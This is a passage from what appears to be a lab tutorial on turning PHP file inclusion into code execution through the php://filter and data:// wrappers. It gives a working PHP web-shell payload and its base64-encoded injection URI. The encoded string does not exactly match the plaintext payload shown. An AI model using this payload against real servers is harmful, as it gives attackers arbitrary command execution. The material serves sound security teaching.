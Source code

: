 # PHP Wrappers

PHP wrappers can be used not only for reading files but also for code execution. The key here is the `php://filter` stream wrapper, which enables file transformations on the fly. Take the PHP base64 filter as an example. This method allows attackers to execute arbitrary code on the server using a base64-encoded payload.

For example, go to `http://MACHINE_IP/playground.php`.

We will use the PHP code `<?php system($_GET['cmd']); echo 'Shell done!'; ?>` as our payload. The value of the payload, when encoded to base64, will be:

```
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+
```

| Position | Field             | Value                                                                 |
|----------|-------------------|-----------------------------------------------------------------------|
| 1        | Protocol Wrapper  | `php://filter`                                                        |
| 2        | Filter            | `convert.base64-decode`                                               |
| 3        | Resource Type     | `resource=`                                                           |
| 4        | Data Type         | `data://plain/text,`                                                  |
| 5        | Encoded Payload   | `PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+`|

In the table above, `PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+` is the base64-encoded version of the PHP code. When the server processes this request, it first decodes the base64 string and then executes the PHP code, allowing the attacker to run commands on the server via the `cmd` GET parameter.

**Vulnerable application containing the PHP wrapper payload**

**Note:** It is important to not include the `&cmd=whoami` in the input field since it will be encoded when the form is submitted. Once encoded, the backend will treat it as part of the base64 code, giving you an invalid byte sequence error.
